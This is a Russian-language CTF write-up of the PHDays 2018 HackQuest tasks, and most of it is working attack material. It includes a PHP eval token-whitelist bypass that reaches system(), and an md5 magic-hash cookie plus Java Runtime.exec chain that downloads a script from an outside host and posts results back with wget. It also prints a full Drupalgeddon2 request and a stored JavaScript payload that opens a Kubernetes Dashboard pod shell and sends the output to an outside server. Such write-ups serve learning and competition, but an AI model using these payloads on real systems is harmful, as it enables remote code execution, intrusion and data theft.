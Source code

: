 # PHDays2018HackQuest

1. mnogorock

   В исходном коде страницы таска `view-source:http://172.104.137.194/` находим следующее:

   ```html
   <!-- POST,command,inform() -->
   ```

   Отправив `command=inform()` POST-методом и получаем в ответ

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 May 2018 10:23:54 GMT
   Server: Apache/2.4.18 (Ubuntu)
   Content-Length: 46
   Connection: close
   Content-Type: text/html; charset=UTF-8

   <!-- POST,command,inform() -->du u now de wei?
   ```

   После фаззинга параметра *command* понимаем, что там вайтлист по [PHP-лексемам](http://php.net/manual/ru/tokens.php) и все, что мы отправляем в *command=* попадает в *eval*. 

   С помощью доступных PHP-лексем, получим выполнение произвольного кода на сервере: 

   ```php
   array('system')[0]('cat /Le9iFudfj94Ef');
   ```



2. sincity

   Веб-сервер **Resin/4.0.55**

   Получить доступ в закрытый /dev можно при помощи обратного слеша `GET /dev\ HTTP/1.1`

   В ответе на `/dev\` находится листинг текущей директории

   ```
   array(3) {
     [0]=>
     string(9) "index.php"
     [1]=>
     string(8) "task.php"
     [2]=>
     string(17) "task.php~~~edited"
   }
   ```

   Исходники в `task.php~~~edited` 

   ```php
   <?php
   error_reporting(0);
   if(md5($_COOKIE['developer_testing_mode'])=='0e313373133731337313373133731337')
   {
    if(strlen($_GET['constr'])===4){
    	$c = new $_GET['constr']($_GET['arg']);
   	$c->$_GET['param'][0]()->$_GET['param'][1]($_GET['test']);
    }else{
    	die('Swimming in the pool after using a bottle of vodka');
    }
   }
   ?>
   ```

   Следующий запрос позволит исполнять произвольные команды на сервере:

   ```http
   GET /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=wget+http://xymfrx.ru HTTP/1.1
   Host: 172.104.154.29
   Cookie: developer_testing_mode=240610708
   ```

   Флаг находится в **/**, чтобы получить листинг корневой директории на сервере, загрузим в **/tmp** скрипт, который выполнит **ls -la /** и положит ответ в файл, далее прочитать файл можно тем же **wget**-ом. 

   Создается файл с **touch**

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=touch+/tmp/xymfrx_random2x
   ```

   Созданный файл заменяется на свой и делается исполняемым

   ```
   # script.sh
   #!/bin/bash

   ls -la 1>/tmp/xymfrx_ls
   ```

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=wget+-q+http://xymfrx.ru/script.sh+-O+/tmp/xymfrx_random2x
   ```

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=chmod+%2bx+/tmp/xymfrx_random2x
   ```

   Выполним скрипт

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=/bin/bash+/tmp/xymfrx_random2x
   ```

   Заберем ответ

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=wget+http://xymfrx.ru/+--post-file=/tmp/xymfrx_random2x
   ```

   В ответе находится название файла с флагом, читаем содержимое и сдаем флаг

3. enGeeks

   При обращении к папке *http://172.104.246.110/admino4ka/img* видим редирект на другой IP. 

   ```http
   HTTP/1.1 301 Moved Permanently
   Server: nginx
   Date: Thu, 03 May 2018 09:54:51 GMT
   Content-Type: text/html; charset=iso-8859-1
   Content-Length: 240
   Connection: close
   Location: http://139.162.190.95:63425/img/
   X-Proxy-Cache: MISS

   <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
   <html><head>
   <title>301 Moved Permanently</title>
   </head><body>
   <h1>Moved Permanently</h1>
   <p>The document has moved <a href="http://139.162.190.95:63425/img/">here</a>.</p>
   </body></html>

   ```

   На этом IP размещены развернутые движки: Joomla, Wordpress и Drupal. Как к ним обращаться понятно из предыдущего хоста, ссылки на развернутые движки вида `wordpress.local` находятся в */admino4ka* и намекают на виртуальные хосты. Следуя подсказке *Drupalgeddon2 is still alive*, идем сразу в Drupal и пытаемся просплойтить Drupalgeddon2:

   ```http
   POST /user/register%3Felement_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
   Host: drupal.local:63425
   User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
   Accept-Encoding: gzip, deflate
   X-Forwarded-For: 127.0.0.1
   Referer: http://drupal.local:63425/user/register
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 112
   Connection: close
   Upgrade-Insecure-Requests: 1

   form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=system&timezone[a][#lazy_builder][][]=ls
   ```

   В README.md предыдущего хоста еще одна подсказка на то, где искать флаг. Следуя ей, получим все файлы с разрешением *.jpg* из */var/www/*. Первое, что бросается в глаза, файл загруженный в блоге с Wordpress. Открываем фотографию - флаг на листке за чуваком.

   ![flag](img/engeeks.jpg)

   ​

4. Rubik

   Сайт на Wordpress-е с открытой регистрацией. 

   При открытии постов на сайте, можно заметить кнопочку **Print**, с помощью которой генерится PDF-ка с содержимым поста. 

   Первое, что приходит в голову, найти как заинжектиться в текст поста и попробовать так сгенерить PDF. Хмм. Вспоминаем, что на сайте открыта регистрация и регистрируемся.

   После реги доступна функциональность создания постов на сайте. Задача: вставить свой *javascript*-код и сгенерить с ним PDF. 

   Но вот проблема, wordpress, при создании поста, не позволяет рендерить html-теги, кроме тех, что предназначены для форматирования текста. 

   ...

   Еще до регистрации, в последнем посте можно заметить frame с плеером Youtube. Тогда можно было не обратить на это внимание, но сейчас.. 

   Пробуем вставить свой <iframe> при создании поста - и ничего!

   Пробуем снова вставить тот же frame, только вместо символов `<>` используем их html-сущности `&lt;&gt;`. И у нас получается! 

   Можем открыть свой сайт в iframe и читать произвольные файлы на сервере с помощью JS, но выкатили подсказку: *There is no need to read local files. The blog is not the only service on the host.*

   Окей. 

   Поищем что-нибудь на других портах. 

   На `127.0.0.1:8080` находим Kubernetes Dashboard. 

   >**Kubernetes Dashboard** is a general purpose, web-based UI for Kubernetes clusters. It allows users to manage applications running in the cluster and troubleshoot them, as well as manage the cluster itself.

   Забираем JS-файл, который загружается на странице `http://127.0.0.1:8080/static/app.fe2776ce.js` и копаемся в нем. 

   Спустя немного времени, натыкаемся на API метод для открытия шелла на тачке. 

   ```javascript
   aa.onTerminalReady = function() {
       this.io = this.b.io.push();
       this.j("api/v1/pod/" + this.c.objectNamespace + "/" + this.podName + "/shell/" + this.container).get({}, this.ud.bind(this))
   };
   aa.ud = function(a) {
       this.a = new SockJS("api/sockjs?" + a.id);
       this.a.onopen = this.pd.bind(this, a);
       this.a.onmessage = this.od.bind(this);
       this.a.onclose = this.nd.bind(this)
   };
   ```

   Для того, чтобы открыть шелл, нужно узнать какой у нее namespace, pod и имя контейнера.

   > **Namespace**: Kubernetes supports multiple virtual clusters backed by the same physical cluster. These virtual clusters are called [namespaces](https://kubernetes.io/docs/tasks/administer-cluster/namespaces/). They let you partition resources into logically named groups.

   > **Pod**: A *pod* (as in a pod of whales or pea pod) is a group of one or more containers (such as Docker containers), with shared storage/network, and a specification for how to run the containers.

   Узнаем, что в неймспейсе `default` находится pod с названием `flagggg-d54f5c54f-nvb26` и с именем контейнера `flag`. 

   Обратившись к API для открытия терминала, получаем **id** для обращения с ним по веб-сокетам. Остается открыть соединение и отправить команду для исполнения.

   ​
   Прошло пару часов пока я не осознал, что пора ставить себе *minikube*, потому что тех действий, что я выполнял, было недостаточно. 

   После установки, идем в Kubernetes Dashboard и следим за тем, какие запросы идут для открытия шелла. Правим скрипт и параллельно тестируем его на локальном Dashboard-е. Несколько раз спотыкаемся об экранирование и скрипт готов. 

   ```html
   xymfrx

   <script src="http://cdn.jsdelivr.net/npm/sockjs-client@1/dist/sockjs.min.js"></script>

   <script>

   function reqListener () {

       var encoded = encodeURI(this.responseText);
       var b64 = btoa(this.responseText);
       var raw = this.responseText;
   	
   	var json = JSON.parse(raw);

   	var sock = new WebSocket("ws://127.0.0.1:8080/api/sockjs/418/1fssnuot/websocket?" + json.id);
   	//var sock = new SockJS("http://127.0.0.1:8080/api/sockjs/418/1fssnuot/websocket?" + json.id);

   	sock.onopen = function() {
   		sock.send("[\"{\\\"Op\":\\\"bind\\\",\\\"SessionID\\\":\\\"" + json.id + "\\\"}\"]");
   		sock.send("[\"{\\\"Op\\\":\\\"resize\\\",\\\"Cols\\\":120,\\\"Rows\\\":33}\"]");
   		sock.send("[\"{\\\"Op\\\":\\\"stdin\\\",\\\"Data\\\":\\\"ls\r\\\"}\\\"]");

   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/?otkroy_padla",true);
   		oReq223.send();
   	};

   	sock.onmessage = function(e) {
   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/?ale_garazh=" + btoa(e.data),true);
   		oReq223.send();
   	};

   	sock.onclose = function(event) {
   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/?close="+event.code+"&asd="+event.reason,true);
   		oReq223.send();
   	};

   	sock.onerror = function(error){
   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/error?" + error.message,true);
   		oReq223.send();
   	};

   } 

   var oReq = new XMLHttpRequest(); 
   oReq.addEventListener("load", reqListener); 
   oReq.open("GET", "http://127.0.0.1:8080/api/v1/pod/default/flagggg-d54f5c54f-nvb26/shell/flag");
   oReq.send();

   </script>
   ```
   ​

   Считываем ответы у себя в логах и радуемся!

5. wowsuchchain

   Coming soon!

